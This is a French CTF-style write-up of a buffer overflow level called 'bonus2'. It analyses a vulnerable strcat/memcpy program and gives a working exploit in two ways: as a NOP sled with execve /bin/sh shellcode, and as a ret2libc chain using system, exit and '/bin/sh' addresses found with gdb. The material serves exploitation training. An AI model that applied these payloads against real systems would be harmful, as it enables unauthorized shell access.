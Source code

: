 "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

Offset 23

set args $(python -c 'print 40*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print 23*"A" + "\x08\xf8\xff\xbf"')

(gdb) find /b $esp, +1000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80


# bonus2 - Buffer Overflow avec Variables d'Environnement

## Analyse du Programme

**Structure**
- Prend deux arguments en ligne de commande
- Utilise une variable d'environnement LANG
- Contient une fonction greetuser() qui affiche différents messages selon la langue

**Buffers**
- s : Premier buffer pour argv[1]
- var_38 : Buffer pour argv[2]
- str : Buffer dans greetuser()

## Vulnérabilités

**Buffer Overflow dans greetuser()**
- strcat(str, &str) tente de concaténer une zone mémoire au-delà du buffer str
- Cette zone contient les données copiées depuis var_38

**Copie de Mémoire Non Sécurisée**
```c
memcpy(&s[76], var_38, 76);
```
- Copie 76 bytes à partir de la fin du buffer s
- Permet d'écrire au-delà des limites du buffer

## Exploitation

**Construction du Payload**
```python
# Premier argument : shellcode + padding
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
arg1 = "\x90" * 40 + shellcode

# Second argument : padding + adresse de retour
arg2 = "A" * 23 + "\x08\xf8\xff\xbf"
```

**Commande d'Exploitation**
```bash
./bonus2 $(python -c 'print 40*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print 23*"A" + "\x08\xf8\xff\xbf"')
```

## Processus d'Exploitation

1. Le premier argument contient :
   - Des NOPs comme zone d'atterrissage
   - Le shellcode qui exécute /bin/sh

2. Le second argument contient :
   - Un padding de 23 bytes
   - L'adresse de retour pointant vers notre shellcode

3. La fonction greetuser() :
   - Tente de concaténer la zone mémoire corrompue
   - Provoque un débordement de buffer
   - Redirige l'exécution vers notre shellcode

4. Le shellcode est exécuté, donnant accès à un shell












# Ret2Libc

## Analyse

- `strncpy()` de 40 caracteres de argv[1]: 0xbffff5e0
- `strncpy()` de 32 caracteres de argv[2]: 0xbffff608
- Ecart de 40 caracteres entre les deux adresses
- Recuperation de la variable d'ENV "LANG", changement du comportement de `greetuser()` en consequence
 ```
    +-> Si "LANG" == "fi"
    |     +-> Concatenation de "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20" et du 1er `strncpy()`
    |
    +-> Si "LANG" == "nl"
    |     +-> Concatenation de "Goedemiddag! " et du 1er `strncpy()`
    |
    +-> Sinon
          +-> Concatenation de "Hello " et du 1er `strncpy()`
```
- `puts()` de la concatenation

Il y a un ecart de **40 octets entre les deux adresses**, donc **si argv[1] compte 40 caracteres le "\0" sera ecrase**
**-->** le `strcat()` continuera sa route et prendra alors le second `strncpy()` jusqu'a rencontrer un '\0'

**-->** Modification du **saved-eip** du `main()` possible lorsque le retour d'`strcat()` est de +65 caracteres (si "LANG"=nothing)

`$(python -c 'print "A"*40') $(python -c 'print "B"*25 + NOTRE_INJECTION')`

**Adresse de la libc:**
```
(gdb) info proc mappings
0xb7fcf000 0xb7fd1000     0x2000        0x1a3000    /lib/i386-linux-gnu/libc-2.15.so
     |         |             |              |                   |
   debut      fin         taille      taille totale        chemin absolu
de la region            de la region    du fichier
  memoire                 memoire

```

**Adresse de `system()`:**
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

**Adresse d'`exit()`:**
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

**Adresse de la string "/bin/sh":**
```
objdump -s -j .rodata /lib/i386-linux-gnu/libc-2.15.so | grep /bin/sh
160c50      726e616c    002d6300    2f62696e    2f736800  rnal.-c./bin/sh.
   |
 offset
```

(adresse_libc + 160c50 + len("rnal.-c.")) = 0xb7f8cc58

-> 0xb7fcf000 + 0x160c50 + 0x8 = 0xb7f8cc58

**Resultat:**
`$(python -c 'print "A"*40') $(python -c 'print "B"*25 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`

##### Mais non ! Notre injection ne sera pas copiee en entier.
**->** ``"B"*25 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7" == 37 octets alors que le `strcpy()` n'en copie que 32``

- Notre injection ce fait suite a au `strcat()` qui concatene une chaine suivant la valeur de "LANG" a nos arguments.

- Ces chaines ont des longueurs differentes, par defaut, on aura "Hello ", soit **7 caracteres**.

- On peut donc utiliser cela pour nous rapprocher d'$ebp+4.

Si **"LANG"="fi"**, on a "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4" soit **18 caracteres** !

Grace a cela, on refait le calcul pour connaitre la distance d'$ebp+4 et **l'offset diminue de 7 octets ce qui est suffisant**.

`$(python -c 'print "A"*40') $(python -c 'print "B"*18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`


